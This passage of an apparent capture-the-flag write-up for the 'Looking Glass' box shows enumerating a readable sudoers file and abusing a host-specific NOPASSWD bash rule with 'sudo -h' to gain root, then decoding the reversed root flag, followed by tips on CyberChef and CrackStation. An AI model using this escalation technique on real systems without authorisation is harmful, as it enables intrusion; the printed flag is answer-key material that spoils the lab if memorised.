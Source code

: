 ### alice privesc enumeration

With access to alice's account, we see if we can achieve priviledge escalation or move laterally to another account. 

We'll recall from the linpeas.sh privesc enumeration of the target that `/etc/sudoers.d/alice` is readable and reveals alice 
has some unique sudo capabilities.

```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                     
Matching Defaults entries for jabberwock on looking-glass:                                                                                                           
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
Sudoers file: /etc/sudoers.d/alice is readable
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

According to sudo documentation, ssalg-gnikool is an alternative host. We can call the 
command by passing the `-h ssalg-gnikool` flag to sudo. 

```
alice@looking-glass:~$ sudo -h ssalg-gnikool /bin/bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:~# 
```

And somehow that worked and we now have root. Grabbing the root flag, we can see it is also reversed like the user flag, 
so we reverse it using `rev`

```
root@looking-glass:/root# cat root.txt 
}f3dae6dec817ad10b750d79f6b7332cb{mht

root@looking-glass:/root# rev <<< }f3dae6dec817ad10b750d79f6b7332cb{mht
thm{bc2337b6f97d057b01da718ced6ead3f}
```


# Other useful information
For trying to identify data and detect various properties of data, can use [CyberChef](https://gchq.github.io/CyberChef/). CyberChef has various transform operations to manipulate input data, it also has a `Magic` operationa that attempts to detect various properties of the input data and suggests which operations could help to make more sense of it.

Another useful source is [crackstation](https://crackstation.net/). It has a database of cracked hashes and can be used to look up the corresponding plaintext for input hashes.